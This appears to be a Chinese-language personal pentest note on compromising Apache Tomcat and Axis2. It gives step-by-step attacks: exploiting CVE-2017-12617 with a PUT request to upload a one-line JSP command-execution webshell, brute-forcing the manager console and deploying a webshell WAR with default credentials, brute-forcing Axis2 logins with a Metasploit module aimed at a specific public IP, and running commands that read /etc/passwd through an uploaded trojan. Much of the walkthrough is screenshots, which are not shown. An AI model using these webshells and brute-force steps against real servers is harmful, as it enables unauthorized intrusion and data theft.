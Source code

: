 ```yaml
---
tags:
  - 中间件
create_time: 2024-10-17 15:28
modified_time: 2024-10-17 15:28
status: complete
---
```

> Tomcat服务器是一个免费的开放源代码的Web 应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选。实际上Tomcat是Apache 服务器的扩展，但运行时它是独立运行的，所以当运行tomcat 时，它实际上作为一个与Apache 独立的进程单独运行的。

## 0x01 Tomcat CVE-2017-12617

- 漏洞简介及成因

  ​	Tomcat 运行在Windows 主机上，且启用了 HTTP PUT 请求方法，可通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，造成任意代码执行。影响版本： Apache Tomcat 7.0.0 – 7.0.81。

- 漏洞复现

1. Tomcat文件夹下的/conf/web. Xml文件插入（错误配置）

```xml
<init-param>
<param-name>readonly</param-name>
<param-value>false</param-value>
</init-param>
```

2. 访问127.0.0.1:8080，burp抓包，send to Repeater，将请求方式改为PUT，创建一个122. Jsp，并用%20或者/转义空格字符。
   添加头信息：`Content-Type: application/x-www-form-urlencoded`
   123. Jsp内容为：`<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>`

![image-20230113124557051](../../../_Attachment/tomcat.assets/image-20230113124557051.png)

3. 访问木马文件即可获得权限

![image-20230113124609668](../../../_Attachment/tomcat.assets/image-20230113124609668.png)

## 0x02 Tomcat弱口令+war包部署

1. 弱口令爆破

Tomcat 的默认后台路径为 /manager/html，存在身份认证可以利用burp/msf尝试后台
口令爆破。

2. 部署war包

Tomcat 支持在后台部署war文件，可以直接将webshell部署到web目录下。若后台管理
页面存在弱口令，则可以通过爆破获取密码。

![image-20230113124829062](../../../_Attachment/tomcat.assets/image-20230113124829062.png)

![image-20230113124834282](../../../_Attachment/tomcat.assets/image-20230113124834282.png)

![image-20230113124838209](../../../_Attachment/tomcat.assets/image-20230113124838209.png)

![image-20230113124843181](../../../_Attachment/tomcat.assets/image-20230113124843181.png)

![image-20230113124846428](../../../_Attachment/tomcat.assets/image-20230113124846428.png)

![image-20230113124849806](../../../_Attachment/tomcat.assets/image-20230113124849806.png)

![image-20230113124852953](../../../_Attachment/tomcat.assets/image-20230113124852953.png)

3. 使用前面 BP 爆破出的用户名 tomcat 密码 tomcat 成功登陆到 Tomcat 后台

![image-20230113124917426](../../../_Attachment/tomcat.assets/image-20230113124917426.png)

4. 准备一个 JSP 的 CMD shell：

![image-20230113124934738](../../../_Attachment/tomcat.assets/image-20230113124934738.png)

5. 然后用jar命令打包成war包 `jar cvf shell.war shell.jsp`

![image-20230113125002179](../../../_Attachment/tomcat.assets/image-20230113125002179.png)

6. 到 Tomcat 后台上传这个 shell. War 包：

![image-20230113125014184](../../../_Attachment/tomcat.assets/image-20230113125014184.png)

7. 点击「Deploy」部署后，浏览器访问 shell. Jsp 木马：`http://xxxx/shell/shell.jsp`

![image-20230113125050194](../../../_Attachment/tomcat.assets/image-20230113125050194.png)

## 0x03 axis2弱口令+部署

- Apache Axis2 是Axis的后续版本，是新一代的SOAP引擎。

1. 部署axis2

![image-20230113143142772](../../../_Attachment/tomcat.assets/image-20230113143142772.png)

2. 部署完成后访问，一般路径为：http://ip:8080/axis2/axis2-admin/



![image-20230113143154813](../../../_Attachment/tomcat.assets/image-20230113143154813.png)

3. Msf爆破axis2口令

```sh
use auxiliary/scanner/http/axis_login
set rhosts 183.129.189.62
set rport 62356
set username admin
set pass_file /opt/metasploitframework/embedded/framework/data/wordlists/default_pass_for_services_unhash.txt
run
```

![image-20230113143352398](../../../_Attachment/tomcat.assets/image-20230113143352398.png)

![image-20230113143356430](../../../_Attachment/tomcat.assets/image-20230113143356430.png)

4. Axis2后台getshell
   进入axis2后台，输入默认用户名密码admin/axis2

![image-20230113143425175](../../../_Attachment/tomcat.assets/image-20230113143425175.png)

5. 上传制作好的aar木马

![image-20230113143437625](../../../_Attachment/tomcat.assets/image-20230113143437625.png)

6. 访问木马所在路径进行命令执行 `http://ip/axis2/services/AxisInvoker/exec/?cmd=cat /etc/passwd`

<img src="../../../_Attachment/tomcat.assets/image-20230113143525992.png" alt="image-20230113143525992" style="zoom:50%;" />

![image-20230113143534294](../../../_Attachment/tomcat.assets/image-20230113143534294.png)







